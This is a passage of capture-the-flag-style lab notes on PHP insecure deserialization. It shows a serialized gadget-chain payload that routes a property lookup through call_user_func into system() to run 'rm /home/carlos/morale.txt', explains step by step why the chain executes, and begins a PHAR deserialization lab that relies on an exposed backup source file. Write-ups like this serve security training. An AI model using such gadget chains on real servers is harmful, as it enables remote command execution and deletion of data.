     class Description {
        public $HTML_DESC;
        public $TEXT_DESC;

        public function __construct() {
            // @Carlos, what were you thinking with these descriptions? Please refactor!
            $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
            $this->TEXT_DESC = 'This product is cool in text';
        }
    }

    class DefaultMap {
        private $callback;

        public function __construct($callback) {
            $this->callback = $callback;
        }

        public function __get($name) {
            return call_user_func($this->callback, $name);
        }
    }

    ?>

Payload to use: 
```
O:14:"CustomTemplate":2:{s:17:"default_desc_type";s:26:"rm /home/carlos/morale.txt";s:4:"desc";O:10:"DefaultMap":1:{s:8:"callback";s:6:"system";}}
```
What Happens on Deserialization?
1. `CustomTemplate::__wakeup()` is called.
2. Calls `build_product()`.
3. Which does: `new Product("rm /home/carlos/morale.txt", $desc)`
4. Product constructor does: `$desc->id`
5. Since `$desc` is a DefaultMap, it triggers `__get("rm /home/carlos/morale.txt")`
6. Which does: `call_user_func("system", "rm /home/carlos/morale.txt")`
7. This executes the command `rm /home/carlos/morale.txt` on the server.

### LAB: Using PHAR deserialization to deploy a custom gadget chain
Try upload a valid image, notice the file path: `/cgi-bin/avatar.php?avatar=wiener`. Go visit `/cgi-bin` and found 2 interesting files:
`CustomTemplate.php~`:

    <?php

    class CustomTemplate {
        private $template_file_path;

        public function __construct($template_file_path) {
            $this->template_file_path = $template_file_path;
        }

        private function isTemplateLocked() {
            return file_exists($this->lockFilePath());
        }
